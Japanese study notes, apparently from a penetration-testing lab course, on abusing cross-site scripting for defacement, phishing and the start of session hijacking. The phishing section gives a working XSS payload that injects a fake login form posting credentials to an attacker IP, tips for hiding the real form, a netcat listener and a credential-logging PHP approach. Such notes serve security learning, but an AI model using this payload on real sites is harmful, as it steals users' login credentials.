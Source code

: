 まとめ
- Defacingは「見た目を変えるだけ」のシンプルなXSS悪用例
- でも、企業・組織にとっては信用を大きく損なう
- 初心者がXSSの影響力を体感するにはちょうどよい演習テーマ

### Phishing
XSS × フィッシング攻撃ってなに？
- XSSを使って「偽のログイン画面」を表示し、被害者から情報を盗む手法
	- 被害者が入力したID・パスワードが攻撃者のサーバーに送られる
	- 本物そっくりの画面で騙すから気付きにくい

攻撃の流れ
- XSSで偽のログインフォームを埋め込む
	- `document.write()` を使ってフォームのHTMLを注入
	- フォームの `action` 属性で攻撃者のサーバーを指定
- 被害者にそのURLを踏ませる
	- Reflected XSSならURLにペイロードを含めて送る
	- Stored XSSなら誰でも開くだけでフォームが表示される

フォームの例（XSS用に加工されたもの）
```sh
<script>document.write('<h3>Please login to continue</h3><form action=[http://10.10.14.83:8080](http://10.10.14.83:8080)><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script>
```
- 被害者が送信すると、認証情報が攻撃者のIPへ送信される

見た目を本物っぽくする工夫
- 元々の入力欄やUIを `remove()` で削除してログイン必須に見せかける
	- 例：`document.getElementById('urlform').remove()`
- 残ったHTMLをコメントアウトして偽画面だけを表示
	- 例：`<!--` を追加するだけでOK

盗んだ情報の受け取り方
- 方法①：簡易確認なら `netcat` でポート80を待ち受け
	- `sudo nc -lvnp 80`
	- 被害者が送信したURLの中に `username=xxx&password=yyy` が含まれる
- 方法②：自然な動作に見せるならPHPスクリプトを使う
	- 入力情報をファイルに保存して、元ページにリダイレクト
	- 被害者は「ログインできた」と思い込む

PHPスクリプトの例
- `$_GET` で受け取って `creds.txt` に保存
	- 終了後に `Location:` ヘッダーで元ページへ戻す

まとめ
- XSSは「偽フォーム」を埋め込むことで簡単にフィッシング攻撃ができる
- 被害者に自然に見せる工夫が成功のカギ
- 試すときは `Reflected XSS` でURLに仕込んで送ると分かりやすい


### Session Hijacking
- 他人のログイン状態（セッション）を乗っ取る攻撃
	- 被害者のブラウザからセッションCookieを盗む
	- Cookieを自分のブラウザにセットすれば、パスワードなしでログインできる
